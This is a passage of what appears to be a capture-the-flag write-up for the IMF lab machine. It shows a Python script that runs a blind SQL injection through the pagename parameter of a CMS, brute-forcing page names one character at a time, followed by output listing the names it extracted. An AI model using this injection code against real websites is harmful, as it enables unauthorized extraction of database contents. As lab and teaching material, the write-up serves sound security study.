 ```php
  20   │ 
  21   │     database = ""
  22   │     p1 =log.progress("Fuerza bruta")
  23   │     p1.status("Iniciando proceso de fuerza bruta")
  24   │ 
  25   │     time.sleep(2)
  26   │ 
  27   │     p2 = log.progress("Data")
  28   │ 
  29   │ 
  30   │     for dbs in range(0, 6):
  31   │         for position_character in range(1, 30): 
  32   │             for character in characters:
  33   │                 sqli = main_url + f"'+and+(select+substring(pagename,{position_character},1)+from+pages+limit+{dbs},1)='{character}"
  34   │ 
  35   │                 p1.status(sqli)
  36   │ 
  37   │                 r = requests.get(sqli, cookies=cookies)
  38   │ 
  39   │                 if "Welcome to the IMF Administration." in r.text:
  40   │                     database += character
  41   │                     p2.status(database)
  42   │                     break
  43   │ 
  44   │             if database[-1:] == ",":
  45   │                 database += " "
  46   │ 
  47   │         if database[-1:] != "," and len(database) > 0:
  48   │             database += ","
  49   │ 
  50   │     if database[-1:] == ",":
  51   │         database = database[:-1]
  52   │ 
  53   │     p2.success(database)
  54   │ 
  55   │ 
  56   │ if __name__ == '__main__':
  57   │ 
  58   │     makeRequest()

```


output
```php
[┐] Fuerza bruta: http://192.168.100.52/imfadministrator/cms.php?pagename=home'+and+(select+substring(pagename,29,1)+from+pages+limit+5,1)='_
[+] Data: disavowlist,home,tutorials-incomplete,upload

```
